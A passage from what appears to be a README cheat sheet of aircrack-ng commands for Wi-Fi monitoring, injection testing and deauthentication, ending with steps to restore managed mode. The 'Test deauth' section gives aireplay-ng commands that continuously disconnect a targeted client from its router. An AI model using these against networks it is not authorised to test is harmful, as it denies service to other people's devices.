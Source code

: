 sudo airodump-ng <wlan0> --band ag
```
Option for 5 GHz only
```
sudo airodump-ng <wlan0> --band a
```
Option for 2.4 GHz only
```
sudo airodump-ng <wlan0> --band g
```
Set the channel of your choice
```
sudo iw dev <wlan0> set channel <channel> [NOHT|HT20]
```
```
sudo aireplay-ng --test <wlan0>
```

-----

### Test deauth

Option for 5 GHz and 2.4 GHz
```
sudo airodump-ng <wlan0> --band ag
```
Option for 5 GHz only
```
sudo airodump-ng <wlan0> --band a
```
Option for 2.4 GHz only
```
sudo airodump-ng <wlan0> --band g
```
```
sudo airodump-ng <wlan0> --bssid <routerMAC> --channel <channel of router>
```
Option for 5 GHz:
```
sudo aireplay-ng --deauth 0 -c <deviceMAC> -a <routerMAC> <wlan0> -D
```
Option for 2.4 GHz:
```
sudo aireplay-ng --deauth 0 -c <deviceMAC> -a <routerMAC> <wlan0>
```

-----

### Revert to Managed Mode

Check the wifi interface name and mode
```
iw dev
```

Take the wifi interface down
```
sudo ip link set <wlan0> down
```

Set managed mode
```
sudo iw <wlan0> set type managed
```

Bring the wifi interface up
```
sudo ip link set <wlan0> up
```
```